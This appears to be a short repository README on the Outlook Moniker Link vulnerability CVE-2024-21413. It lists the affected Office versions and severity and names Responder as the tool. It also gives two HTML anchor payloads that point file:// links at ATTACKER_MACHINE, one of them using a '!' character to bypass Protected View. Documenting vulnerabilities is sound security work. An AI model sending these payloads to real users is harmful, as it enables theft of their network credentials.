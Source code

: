 ## Moniker Link CVE-2024-21413

### Tool: Responder, SMTP client

### Severity: Critical

### Scoring: 9.8

### MS Article: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413

### Affected MS Office releases:

#### 1) Microsoft Office LTSC 2021	(Version: from 19.0.0)

#### 2) Microsoft 365 Apps for Enterprise (Version: from 16.0.1)

#### 3) Microsoft Office 2019 (Version: from 16.0.1)

#### 4) Microsoft Office 2016 (Version: from 16.0.0 before 16.0.5435.1001)

### Example payload: (Moniker Link type: file://)

#### 1) <p><a href="file://ATTACKER_MACHINE/test">Click me</a></p<

### Outlook's Protected view bypass: (Special character: !)

#### 1) <p><a href="file://ATTACKER_MACHINE/test!exploit"<Click me</a></p<

